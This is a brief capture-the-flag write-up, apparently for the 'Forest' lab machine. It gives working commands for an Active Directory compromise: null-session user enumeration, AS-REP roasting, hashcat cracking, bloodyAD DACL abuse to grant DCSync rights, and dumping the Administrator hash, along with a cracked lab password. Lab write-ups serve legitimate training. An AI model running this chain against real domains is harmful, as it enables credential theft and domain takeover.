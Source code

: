 # Forest

## NMAP

* Rustscan Results
```console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49677/tcp open  unknown          syn-ack ttl 127
49681/tcp open  unknown          syn-ack ttl 127
49698/tcp open  unknown          syn-ack ttl 127
```
## SMB

* Either `enum4linux-ng` or `nxc` can fetch the users via the null session on the smb.

```bash
nxc smb $IP -u '' -p '' --users
```

* we can check if any of these users are `AS-REP` roastable

```bash
impacket-GetNPUsers -dc-ip $IP htb.local/ -no-pass -usersfile users.txt
```

## Hash Cracking

* cracking the `AS-REP` hash via hashcat

```bash
hashcat -a 0 -m 18200 svc_alfresco_hash /usr/share/wordlists/rockyou.txt
```
## DACL Abuse

```bash
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add groupMember 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice set owner 'EXCHANGE WINDOWS PERMISSIONS' svc-alfresco
bloodyAD --host $IP -d forest.local -u svc-alfresco -p s3rvice add dcsync svc-alfresco
```

## DCSync

```bash
nxc smb $IP -u 'svc-alfresco' -p 's3rvice' --ntds -user Administrator
```